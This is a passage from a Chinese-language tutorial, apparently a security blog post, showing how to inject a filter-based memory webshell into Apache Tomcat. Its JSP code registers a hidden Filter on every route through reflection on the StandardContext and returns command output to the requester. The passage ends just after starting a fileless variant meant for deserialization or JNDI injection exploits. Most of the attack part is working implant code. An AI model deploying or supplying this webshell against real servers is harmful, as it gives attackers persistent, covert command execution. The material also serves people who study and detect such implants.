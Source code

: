 ```java
                    String output = scanner.hasNext() ? scanner.next() : "";
                    servletResponse.getWriter().write(output);
                    servletResponse.getWriter().flush();
                    return;
                }
                //别忘记带这个，不然的话其他的过滤器可能无法使用
                filterChain.doFilter(servletRequest,servletResponse);
            }
            @Override
            public void destroy() {
            }
        };

        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());

        // 将filterDef添加到filterDefs中
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        //拦截的路由规则，/* 表示拦截任意路由
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("注入成功");
    }
%>
```
![](https://img-blog.csdnimg.cn/216d8e9901c9454f84b16607e7615cd9.png)
接下来访问任意路由试一下，成功植入内存马
![](https://img-blog.csdnimg.cn/d299405f29b142fb95b851c29ae09a43.png)
严格意义上来说不能算是内存WebShell，因为在Tomcat编译jsp文件的时候，会在Tomcat目录下有文件落地
![](https://img-blog.csdnimg.cn/e76cc59e14a34accab09c9b11558b135.png)

#### 无文件内存马
在没有request下，比如说反序列化漏洞、JNDI注入等，我们就需要先获取request，而获取request的操作之前已经学习过了，直接给出代码吧
```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.io.InputStream;
```